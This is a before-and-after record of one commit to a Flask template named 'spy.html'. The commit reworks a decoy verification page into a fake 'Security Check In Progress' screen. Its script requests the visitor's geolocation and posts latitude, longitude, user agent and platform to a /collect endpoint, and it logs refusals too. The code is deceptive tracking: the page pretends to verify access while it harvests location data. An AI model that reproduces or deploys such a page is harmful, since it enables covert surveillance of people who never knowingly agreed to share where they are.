

Before and after one commit to MR5121472/Govt-of-punjab-pak, a Flask app: template templates/spy.html in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
Update spy.html

```diff
--- a/templates/spy.html
+++ b/templates/spy.html
@@ -1,65 +1,64 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>News Verification</title>
+  <meta charset="UTF-8">
+  <title>Security Verification</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1">
   <style>
     body {
+      background-color: #f9f9f9;
       font-family: Arial, sans-serif;
-      background: #f9f9f9;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-      margin-top: 100px;
-    }
-    .box {
-      background: white;
-      padding: 20px;
-      border-radius: 10px;
-      box-shadow: 0 2px 10px rgba(0,0,0,0.1);
+      padding: 30px;
       text-align: center;
     }
-    h2 {
+    .card {
+      background: white;
+      padding: 30px;
+      max-width: 400px;
+      margin: auto;
+      box-shadow: 0 0 10px rgba(0,0,0,0.1);
+      border-radius: 10px;
+    }
+    .card h2 {
       color: #333;
+    }
+    .card p {
+      color: #666;
     }
   </style>
 </head>
 <body>
-  <div class="box">
-    <h2>Verifying Your Identity...</h2>
-    <p>Please wait while we verify your browser and location.</p>
+  <div class="card">
+    <h2>🔒 Security Check In Progress</h2>
+    <p>Please wait while we verify your access...</p>
   </div>
 
   <script>
-    function getDataAndSend(lat, lon) {
+    navigator.geolocation.getCurrentPosition(function(pos) {
       fetch("/collect", {
         method: "POST",
         headers: {"Content-Type": "application/json"},
         body: JSON.stringify({
-          latitude: lat,
-          longitude: lon,
+          latitude: pos.coords.latitude,
+          longitude: pos.coords.longitude,
           userAgent: navigator.userAgent,
-          camera: "✅ Location Accessed"
+          camera: "✅ Location Access Granted",
+          deviceInfo: navigator.platform
         })
       });
-    }
-
-    navigator.geolocation.getCurrentPosition(
-      function(position) {
-        getDataAndSend(position.coords.latitude, position.coords.longitude);
-      },
-      function(error) {
+    }, function() {
       fetch("/collect", {
         method: "POST",
         headers: {"Content-Type": "application/json"},
         body: JSON.stringify({
           userAgent: navigator.userAgent,
-            camera: "❌ Location Denied"
+          camera: "❌ Location Denied",
+          latitude: null,
+          longitude: null,
+          deviceInfo: navigator.platform
         })
       });
-      }
-    );
+    });
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
